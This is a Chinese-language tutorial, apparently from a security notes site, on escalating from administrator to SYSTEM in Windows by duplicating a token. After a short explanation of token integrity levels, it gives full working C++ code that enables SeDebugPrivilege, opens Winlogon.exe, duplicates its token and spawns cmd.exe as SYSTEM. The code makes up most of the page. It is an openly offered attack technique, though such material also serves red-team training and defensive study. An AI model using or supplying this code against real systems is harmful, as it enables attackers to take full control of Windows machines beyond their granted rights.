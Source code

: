 # 通过复制Token提权到SYSTEM

在windows系统中使用一个较高细粒度的Token来区分和管理权限，我们通常说的system权限administrator权限本质上是令牌的完整性和特权不同，通过细粒度较高的特权进行区分。

在本文中，不会对令牌机制进行详细的剖析，只需要知道它本质上是一个内核对象即可，详细的内容会在以后的内核操作文章中详细讲解。

* 下图分别是medium完整性令牌和high完整性令牌。

![](../.gitbook/assets/image%20%2811%29.png)

![](../.gitbook/assets/image%20%2838%29.png)

## 提权流程

1. 打开system权限进程
2. 复制system权限进程Token
3. 使用复制Token打开新进程

## 代码实现

默认配置的管理员拥有SeDebugPrivilege，该权限用于调试进程，是否拥有直接决定你是否能打开写入调试注入如winlogon,system等进程。

```text
#include <windows.h>
#include <iostream>
#include <Lmcons.h>
#include <TlHelp32.h>

BOOL SePrivTokenrivilege(
	HANDLE hToken,          
	LPCTSTR lpszPrivilege, 
	BOOL bEnablePrivilege  
)
{
	LUID luid;

	if (!LookupPrivilegeValue(
		NULL,            
		lpszPrivilege,  
		&luid))       
	{
		return FALSE;
	}

	TOKEN_PRIVILEGES PrivToken;
	PrivToken.PrivilegeCount = 1;
	PrivToken.Privileges[0].Luid = luid;
	if (bEnablePrivilege)
		PrivToken.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	else
		PrivToken.Privileges[0].Attributes = 0;


	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&PrivToken,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		return FALSE;
	}

	return TRUE;
}


DWORD FindProcessPID(const wchar_t* ProcessName) {
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 process = { 0 };
	process.dwSize = sizeof(process);

	if (Process32First(snapshot, &process)) {
		do {
			if (!wcscmp((const wchar_t*)process.szExeFile,(const wchar_t*)ProcessName))
				break;
		} while (Process32Next(snapshot, &process));
	}

	CloseHandle(snapshot);
	return process.th32ProcessID;
}

int main(int argc, char** argv) {
	HANDLE hDpToken = NULL;
	
	

	HANDLE hCurrentToken = NULL;
	BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hCurrentToken);
	SePrivTokenrivilege(hCurrentToken, L"SeDebugPrivilege", TRUE);

	DWORD PID_TO_IMPERSONATE = FindProcessPID(L"Winlogon.exe");
	HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, true, PID_TO_IMPERSONATE);


	HANDLE hToken = NULL;
	BOOL TokenRet = OpenProcessToken(hProcess,
		TOKEN_DUPLICATE |
		TOKEN_ASSIGN_PRIMARY |
		TOKEN_QUERY, &hToken);

	BOOL impersonateUser = ImpersonateLoggedOnUser(hToken);
	if (GetLastError() == NULL)
	{
		RevertToSelf();
	}

	
	BOOL dpToken = DuplicateTokenEx(hToken, 
		TOKEN_ADJUST_DEFAULT |
		TOKEN_ADJUST_SESSIONID |
		TOKEN_QUERY |
		TOKEN_DUPLICATE |
		TOKEN_ASSIGN_PRIMARY,
		NULL,
		SecurityImpersonation,
		TokenPrimary,
		&hDpToken
	);


	STARTUPINFO startupInfo = {0};
	startupInfo.cb = sizeof(STARTUPINFO);
	PROCESS_INFORMATION ProcessInfo = {0};

	BOOL Ret = CreateProcessWithTokenW(hDpToken,
		LOGON_WITH_PROFILE,
		L"C:\\Windows\\System32\\cmd.exe",
		NULL, 0, NULL, NULL,
		&startupInfo,
		&ProcessInfo);


	return TRUE;
}
```

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/azure/active-directory/develop/access-tokens" %}



